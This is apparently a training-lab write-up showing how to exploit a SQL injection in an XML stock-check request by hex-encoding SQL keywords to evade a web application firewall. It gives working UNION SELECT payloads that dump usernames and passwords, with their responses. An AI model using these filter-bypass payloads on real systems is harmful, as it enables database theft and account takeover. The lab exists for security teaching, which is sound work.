



# Lab: SQL injection with filter bypass via XML encoding
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

## Filter bypass via XML encoding
The application has a SQL injection vulnerability via XML. But it also uses a WAF (Web Application Firewall). So the learning goal in this lab is to bypass the filter of the firewall to inject a query via the XML request. One approach is to obfuscate the query.

## Solution
As mentioned before, the application has a stock check feature, which is vulnerable:



If we take a look at the HTTP traffic via Burp Proxy, we can see a POST request for resolving the stock check using XML:



With a valid request, like shown, the application shows how many units are in stock.

The values `productId` and `storeId` are probably processed in a SQL statement. So we can test if a simple injection will work:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 union select null
        </storeId>
    </stockCheck>
```
As a response we get:
```
"Attack detected"
```

The response took place because of the WAF, which is detecting the SQL keywords and filtering the query out.

To bypass the query we can try to add the hex entities of the characters, so the filter won't detect SQL statements anymore:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect null
        </storeId>
    </stockCheck>
```
```
204 units
null
```

In the result we can see, that the query was executed. The server decodes the hex value of the ASCII character and executes the query afterwards.

From now on it is pretty simple to build a query that uses a UNION attack to get data from the 'users' table. We just have to slightly obfuscate the SQL keywords. For example we can use the following query:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect password &#x66;rom users &#x77;here username=&#x27;administrator&#x27;
        </storeId>
    </stockCheck>
```
Resulting in the following response:
```
204 units
po67rs8f5h6ykdg0br5t
```

We could also use this payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;nion &#x73;elect username || &#x27;..&#x27; || password &#x66;rom users
        </storeId>
    </stockCheck>
```
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we login with the credentials, the lab is solved.

### Hackvertor
Burp Suite has an extension for this use case called 'Hackvertor'. This extension can convert text in place into different encodings.

You can install extensions via the 'BApp Store' under the 'Extensions' tab. If it's installed, you can mark the text that you want to encode, right click it and select 'Extensions' -> 'Hackvertor' -> 'Encode' -> 'hex\_entities':



Burp than adds the tag `<@hex_entities>`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 <@hex_entities>union select username || '..' || password from users<@/hex_entities>
        </storeId>
    </stockCheck>
```
And the request results in the same response:
```
204 units
administrator..po67rs8f5h6ykdg0br5t
carlos..d9rcmrrg0hqyqgan7ltv
wiener..aoftenlenr3jkkoxcaii
```

If we take a look at the actual used request, we see the following:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1 &#x75;&#x6e;&#x69;&#x6f;&#x6e;&#x20;&#x73;&#x65;&#x6c;&#x65;&#x63;&#x74;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x20;&#x7c;&#x7c;&#x20;&#x27;&#x2e;&#x27;&#x20;&#x7c;&#x7c;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x66;&#x72;&#x6f;&#x6d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
        </storeId>
    </stockCheck>
```
This option of Hackvertor converts every character of the query to the hex entity and allows us to bypass the WAF.
